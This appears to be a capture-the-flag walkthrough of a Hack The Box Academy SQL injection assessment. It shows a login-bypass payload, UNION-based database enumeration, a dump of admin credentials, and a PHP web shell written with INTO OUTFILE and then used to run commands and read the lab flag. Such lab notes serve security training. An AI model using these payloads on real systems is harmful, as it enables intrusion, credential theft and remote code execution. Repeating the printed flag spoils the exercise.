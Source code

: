 ﻿---
sticker: lucide//database-backup
---
The companyÂ `Inlanefreight`Â has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![Pasted image 20250203155825.png](../../../IMAGES/Pasted%20image%2020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![Pasted image 20250203155958.png](../../../IMAGES/Pasted%20image%2020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![Pasted image 20250203160114.png](../../../IMAGES/Pasted%20image%2020250203160114.png)

To our surprise, we were able to successfully log in:

![Pasted image 20250203160137.png](../../../IMAGES/Pasted%20image%2020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![Pasted image 20250203160237.png](../../../IMAGES/Pasted%20image%2020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![Pasted image 20250203160644.png](../../../IMAGES/Pasted%20image%2020250203160644.png)



![Pasted image 20250203160804.png](../../../IMAGES/Pasted%20image%2020250203160804.png)

After checking the responses we can see the following:

![Pasted image 20250203161026.png](../../../IMAGES/Pasted%20image%2020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![Pasted image 20250203161321.png](../../../IMAGES/Pasted%20image%2020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![Pasted image 20250203161420.png](../../../IMAGES/Pasted%20image%2020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![Pasted image 20250203161536.png](../../../IMAGES/Pasted%20image%2020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![Pasted image 20250203162243.png](../../../IMAGES/Pasted%20image%2020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![Pasted image 20250203162347.png](../../../IMAGES/Pasted%20image%2020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![Pasted image 20250203163116.png](../../../IMAGES/Pasted%20image%2020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User withÂ `FILE`Â privilege enabled
2. MySQL globalÂ `secure_file_priv`Â variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![Pasted image 20250203163254.png](../../../IMAGES/Pasted%20image%2020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![Pasted image 20250203163428.png](../../../IMAGES/Pasted%20image%2020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![Pasted image 20250203164153.png](../../../IMAGES/Pasted%20image%2020250203164153.png)

Let's list the `/` directory: `ls+/`

![Pasted image 20250203164320.png](../../../IMAGES/Pasted%20image%2020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![Pasted image 20250203164435.png](../../../IMAGES/Pasted%20image%2020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![Pasted image 20250203164504.png](../../../IMAGES/Pasted%20image%2020250203164504.png)

